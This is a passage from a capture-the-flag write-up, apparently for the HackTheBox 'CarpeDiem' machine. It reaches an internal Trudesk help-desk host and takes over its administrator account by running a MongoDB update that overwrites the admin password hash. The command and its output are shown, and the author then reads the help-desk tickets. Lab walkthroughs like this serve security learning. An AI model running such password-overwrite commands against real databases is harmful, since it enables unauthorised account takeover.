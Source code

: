 
This was interesting, and we'll keep this in mind for now.

#### 172.17.0.5

This host was running Trudesk on port 8118 (which is exactly what the MongoDB instance is for). We can directly add `trudesk.carpediem.htb` and access it on port 80 (without proxychains).

<figure><img src="../../../.gitbook/assets/image (2412).png" alt=""><figcaption></figcaption></figure>

We don't have valid credentials (yet), so we can't login.

### Reset Password -> Ticket Enum

Since we have access toe the MongoDB for Trudesk, we can just reset the password for the administrator.

```
db.getCollection("accounts").update({"_id":ObjectId("623c8b20855cc5001a8ba13c")},{$set:{"password":"$2a$10$uL4uO5nHLkSFdZ3Wed2eBeYPtolnWG9CnWmGYqE/pjwSkoogU9kc."}});
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

This would reset the admin password to 'hello'. Then we can login to Trudesk. Here, we can read the tickets that are present:

<figure><img src="../../../.gitbook/assets/image (4045).png" alt=""><figcaption></figcaption></figure>
